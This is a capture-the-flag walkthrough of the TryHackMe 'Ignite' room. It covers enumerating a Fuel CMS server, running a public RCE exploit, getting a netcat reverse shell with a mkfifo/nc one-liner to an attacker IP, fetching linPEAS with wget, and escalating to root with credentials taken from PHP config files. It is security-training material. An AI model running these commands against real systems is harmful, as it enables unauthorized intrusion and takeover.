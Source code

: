 ```yaml
---
layout: post
title: "Ignite"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [Fuel-CMS, dirsearch, searchsploit, reverse-shell, linPEAS]
image: ../../assets/img/posts/ignite.png 

---
```


## Description

A new start-up has a few issues with their web server..

|**Room**|[Ignite](https://tryhackme.com/room/ignite)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|

---

We'll start with nmap scan,

```bash
sudo nmap -A -sV <ip> -oN nmap_scan
``` 

![image](https://user-images.githubusercontent.com/67465230/173224080-9724a570-f8aa-45fc-910f-7a580319d04e.png)

let's visit http://machineIP,

![image](https://user-images.githubusercontent.com/67465230/173224089-dc05521c-9a7f-47df-9a90-e511b31b42a0.png)

look at this!! This is a page of **fuel cms**. Let's brute force it's directories,

```bash
./dirsearch.py -u http://<machineIP> -e txt,php -i 200,301
``` 

![image](https://user-images.githubusercontent.com/67465230/173224095-a222b8f8-d649-491a-9e58-789abda7215e.png)

we got some directories. After visiting each one of them, /robots.txt stands as one we're looking for,

navigate to **/robots.txt**,

![image](https://user-images.githubusercontent.com/67465230/173224098-7f519545-cfab-4207-af6f-8e765fc9056d.png)

we got /fuel directory, let's visit it,

after visiting **/fuel** path, i got this,

![image](https://user-images.githubusercontent.com/67465230/173224105-d6a3a051-c4fe-4a0d-989d-b49913fc3da1.png)

seems like we have to login into this. Since we don't have any credentials we can't login into this so we need a way around it.

**Note: Later I found out that we are given the default credentials i.e admin: admin but we actually don't need them ;-)**

But let's search for exploit **fuel cms** (known vulnerability) either on searchsploit or google, I prefer **searchsploit**,

```bash
searchsploit fuel cms
```

![image](https://user-images.githubusercontent.com/67465230/173224112-2f386e4b-3622-41ec-adce-314ab2fddff6.png)

we got RCE vulnerability. I download this exploit using this command,

```bash
searchsploit -m linux/webapps/47138.py
``` 

![image](https://user-images.githubusercontent.com/67465230/173224116-e44e1967-7de1-4e19-9b33-d97fcd697485.png)

so we've downloaded exploit on same directory.

the exploit code looks like this,

![image](https://user-images.githubusercontent.com/67465230/173224123-60c01502-7828-4d97-89ae-16c3f6eb8684.png)

to use this exploit, we've to change 2 things, first IP address of remote machine and port to 80 and then remove proxies=proxy because we don't want burp to intercept our process. 

and then we'll run this exploit using python2,

![image](https://user-images.githubusercontent.com/67465230/173224127-9b2d0c8f-34c0-4339-a25d-35d296eb5c8c.png)

we got unstable web-shell. 

Let's see where we're or in which directory we're in,

![image](https://user-images.githubusercontent.com/67465230/173224133-ad07afce-1990-41bf-83d3-e3e177de165d.png)

seems like we're in /var/www/html.

From here, we will use netcat reverse shell to get a rev connection to get a normal shell,

run this command on web-shell we got and start the netcat listener via `nc -nvlp 4444`, 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.8.80 4444 >/tmp/f
``` 

![image](https://user-images.githubusercontent.com/67465230/173224137-ee399fec-642d-4db8-b391-d58686cc02d0.png)

after running this command, we'll instantly get a reverse connection on our netcat,

![image](https://user-images.githubusercontent.com/67465230/173224140-84660bea-458d-4e8b-bd00-ce6a3a663ed7.png)

we got user flag.

**Privilege Escalation:** After enumerating everything, I got nothing specific. So I tried to run linPEAS to automate the enumeration and check if can found anything specific. So i transfer LinPEAS.sh file on remote system by starting python server,

navigate to /tmp folder and then there type `wget http://<tun0IP:8000>/linPEAS` and then make this script executable and run it,

![image](https://user-images.githubusercontent.com/67465230/173224147-a82c3a41-15d7-4292-b031-c4ec801080e7.png)

after sometime, I encountered that there are **credentials** for root user in **PHP config files**,

![image](https://user-images.githubusercontent.com/67465230/194687577-64952da2-e033-4aa9-bba5-fd71b3be72cf.png)

so I tried to use them using,

```bash
su root
``` 

![image](https://user-images.githubusercontent.com/67465230/173224154-817e6702-b896-4a4a-9f73-84d43b978e1f.png)

and then I got system access. Now, go hunt for root flag. :)